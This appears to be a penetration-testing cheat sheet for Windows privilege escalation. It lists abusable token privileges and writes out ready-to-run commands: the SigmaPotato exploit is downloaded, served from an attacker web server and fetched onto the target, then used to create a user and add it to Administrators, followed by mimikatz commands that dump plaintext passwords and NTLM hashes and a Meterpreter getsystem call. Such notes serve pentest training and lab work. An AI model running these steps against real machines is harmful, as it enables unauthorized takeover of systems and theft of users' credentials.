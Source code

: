 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
To exploit this privilege, SigmaPotato (or other "potato" exploits) can be used to trick "NT AUTHORITY\SYSTEM" into authenticating into a malicious named pipe, allowing us to execute commands as them.
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
# Mimikatz
If a user has either of the following privileges, mimikatz can be used:
* SeImpersonatePrivilege
* SeDebugPrivilege

Once mimikatz is transferred to the target windows device, run it as administrator via powershell.

Enable SeDebugPrivilege (require for dumping passwords):
```
privilege::debug
```
Elevate privileges to SYSTEM (also required):
```
token::elevate
```
Dump plaintext and hashed passwords from ALL sources:
```
sekurlsa::logonpasswords
```
Dump only NTLM hashes from SAM database:
```
lsadump::sam
```
# Meterpreter
```
getsystem
```
